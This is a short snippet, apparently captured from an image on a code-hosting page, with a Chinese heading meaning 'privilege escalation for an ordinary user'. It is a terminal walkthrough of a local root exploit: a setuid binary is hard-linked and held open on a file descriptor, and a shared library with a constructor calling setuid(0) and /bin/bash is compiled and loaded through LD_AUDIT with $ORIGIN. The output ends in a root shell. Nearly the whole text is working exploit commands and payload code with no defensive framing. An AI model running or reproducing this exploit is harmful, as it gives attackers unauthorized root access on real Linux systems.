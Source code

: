 ###普通用户提权

            [test@ahu ~]$ mkdir /tmp/exploit
            [test@ahu ~]$ ln /bin/ping /tmp/exploit/target
            [test@ahu exploit]$  exec 3< /tmp/exploit/target
            [test@ahu exploit]$ ls -l /proc/$$/fd/3
            lr-x------ 1 test test 64 Aug 17 21:41 /proc/35612/fd/3 -> /tmp/exploit/target
            [test@ahu exploit]$ rm -rf /tmp/exploit/
            [test@ahu exploit]$ ls -l /proc/$$/fd/3
            [test@ahu ~]$ vim payload.c 
            void __attribute__((constructor)) init()     //在配置文件加入如下的内容
            {
                setuid(0);
                system("/bin/bash");
            }
            
            [test@ahu ~]$ gcc -w -fPIC -shared -o /tmp/exploit payload.c
            [test@ahu ~]$ ls -l /tmp/exploit
            [test@ahu ~]$ LD_AUDIT="$ORIGIN" exec /proc/self/fd/3
            Usage: ping [-LRUbdfnqrvVaA] [-c count] [-i interval] [-w deadline]
                        [-p pattern] [-s packetsize] [-t ttl] [-I interface or address]
                        [-M mtu discovery hint] [-S sndbuf]
                        [ -T timestamp option ] [ -Q tos ] [hop1 ...] destination
            [root@ahu ~]# whoami 
            root

